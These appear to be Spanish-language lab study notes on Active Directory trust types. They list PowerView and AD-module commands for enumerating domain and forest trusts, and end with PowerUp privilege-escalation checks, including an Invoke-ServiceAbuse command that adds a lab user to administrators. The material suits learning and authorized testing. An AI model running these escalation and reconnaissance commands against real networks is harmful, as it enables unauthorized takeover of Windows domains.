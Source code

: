 # Trust - Confianza
La confianza puede ser de varios tipos:
..* Unidireccional, un dominio confia en otro y es el segundo el que puede acceder al primero
..* Bidireccional
..* Transitividad propiedad por la que un dominio confia en otro y ese a su vez en otro.
..* No transitivo, es la configuración por defecto entre dos dominios de bosques diferentes que no confien entre ellos
..* Padre-hijo, creada de manera automática entre un dominio y su raiz, es siempre bidireccional.
..* Arbol-Bosque Raiz, se crea automaticamente con la creación de un nuevo dominio en el bosque, bidireccional y transitiva.
..* Enlace de confianza, se puede crear entre dominios o bosques no relacionados directamente pero que pertenecen al mismo bosque raiz, unidireccional o bidireccional.
..* Confianza externa entre dos dominios de diferentes bisques raiz, puede ser unidireccional o bidireccional y no transitiva.
..* Confianza de bosque, es entre dominios raiz, transitiva o no.

## Dominios de confianza
..* `Get-NetDomainTrust –Domain us.dollarcorp.moneycorp.local`
..* `Get-ADTrust –Identity us.dollarcorp.moneycorp.local`

..* `Get-NetForestDomain -Verbose | Get-NetDomainTrust` --> Ver la confianza entre los dominios del bosque
..* `Get-NetForestDomain -Verbose | Get-NetDomainTrust | ?{$_.TrustType -eq 'External'}` --> Confianzas externas
..* `Get-NetDomainTrust | ?{$_.TrustType -eq 'External'}` --> igual

# Forest

..* `Get-NetForest –Forest eurocorp.local`
..* `Get-ADForest –Identity eurocorp.local`

## Todos los dominios de un bosque
..* `Get-NetForestDomain`
..* `(Get-ADForest).Domains`

## Catalog ¿?
..* `Get-NetForestCatalog`
..* `Get-ADForest | select -ExpandProperty GlobalCatalogs`

## Mapa de confianza del bosque ¿?
..* `Get-NetForestTrust –Forest eurocorp.local`
..* `Get-ADTrust -Filter 'msDS-TrustForestTrustInfo -ne "$null"'`

# Elevación
## PowerUp
..* `Get-ServiceUnquoted`
..* `Get-ModifiableServiceFile`
..* `Get-ModifiableService` --> Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\student46' y te añade a administradores
..* `Invoke-AllChecks`
